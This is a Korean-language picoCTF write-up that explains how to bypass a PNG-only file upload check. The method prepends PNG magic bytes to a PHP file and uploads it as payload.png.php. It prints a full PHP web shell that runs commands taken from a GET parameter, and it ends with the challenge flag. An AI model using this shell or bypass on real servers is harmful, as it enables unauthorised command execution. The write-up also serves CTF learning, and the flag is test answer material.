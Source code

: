 ```yaml
---
tags:
  - picoCTF
  - "#web"
  - "#File-Upload"
  - "#PNG"
  - "#php"
tech:
---
```


# Walk Through

문제를 읽어보면 PNG 파일만 업로드 할 수 있는 시스템이라는 언급이 되어있다. 링크로 접속하면 파일을 업로드 할 수 있는 인터페이스가 보이는 PNG 파일 업로드 외에 다른 파일을 업로드하면 다음과 같은 메시지가 뜬다.
```
Error: File name does not contain '.png'.
```
힌트를 얻기 위해 "/robots.txt"로 접속하면 두 파일이 보인다.
```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
``` 
아래는 instruction.txt 파일이다.
```text
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```
읽어보면 PNG 파일 시그니처를 검사해 PNG 파일의 유효성을 체크하는 듯 보인다. 그렇다면 PHP 파일을 PNG 파일 시그니처만 삽입해서 업로드하면 어떨까? 

PHP 파일을 통해서 Shell을 사용할 수 있는 Payload는 다음 링크에서 얻을 수 있다.
```
https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985
```
해당 파일을 다음과 같이 수정하자.
```html
PNG
 <html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

이제 파일을 업로드하면 PNG 유효성 체크를 통과해서 PHP를 실행시킬 수 있다. 다음과 같은 URL로 접속하자.
```
http://atlas.picoctf.net:49280/uploads/payload.png.php
```
시스템 내에 숨겨진 flag에 찾기위해 최초 접근했던 디렉터리로 가보자.
```
total 16
drwxrwxrwt 1 www-data www-data   21 Mar 12  2024 .
drwxr-xr-x 1 root     root       18 Nov 21  2023 ..
-rw-r--r-- 1 root     root       49 Mar 12  2024 GQ4DOOBVMMYGK.txt
-rw-r--r-- 1 root     root     1572 Feb  7  2024 index.php
-rw-r--r-- 1 root     root      415 Feb  7  2024 instructions.txt
-rw-r--r-- 1 root     root       62 Feb  7  2024 robots.txt
drwxr-xr-x 1 www-data root       70 Sep 18 07:30 uploads
```

"GQ4DOOBVMMYGK.txt" 에 플래그가 숨겨져있다.


/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e} */
